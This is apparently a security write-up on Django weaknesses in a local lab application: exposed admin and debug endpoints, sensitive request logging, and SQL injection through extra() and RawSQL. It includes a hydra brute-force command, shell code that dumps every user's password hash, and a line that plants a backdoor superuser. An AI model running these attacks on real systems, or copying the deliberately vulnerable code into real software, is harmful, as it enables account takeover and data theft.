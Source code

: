 ## Django-Specific Issues

### 1. Exposed Admin Interface
```bash
# Default admin URL accessible
http://localhost:8093/admin

# Brute force attack
hydra -l admin -P passwords.txt localhost -s 8093 http-post-form "/admin/login/:username=^USER^&password=^PASS^:F=invalid"
```

### 2. Information Disclosure via Debug
```python
# Debug toolbar exposed
http://localhost:8093/__debug__/

# API endpoints exposed
http://localhost:8093/api/__debug__/
```

### 3. Insecure Middleware
```python
# Custom middleware without security
class VulnerableMiddleware:
    def process_request(self, request):
        # Logs sensitive data
        logger.info(f"User {request.user} accessed {request.path} with data {request.POST}")
```

### 4. ORM Injection
```python
# Extra() method vulnerable
User.objects.extra(where=[f"username = '{username}'"])

# Annotate with raw SQL
User.objects.annotate(
    total=RawSQL(f"SELECT COUNT(*) FROM orders WHERE user_id = {user_id}", [])
)
```

## Exploitation Tools

### Django Shell Access
```bash
# If you gain code execution
python manage.py shell

# Dump all users
from django.contrib.auth.models import User
for user in User.objects.all():
    print(f"{user.username}: {user.password}")

# Create admin user
User.objects.create_superuser('hacker', 'hacker@evil.com', 'password')
```
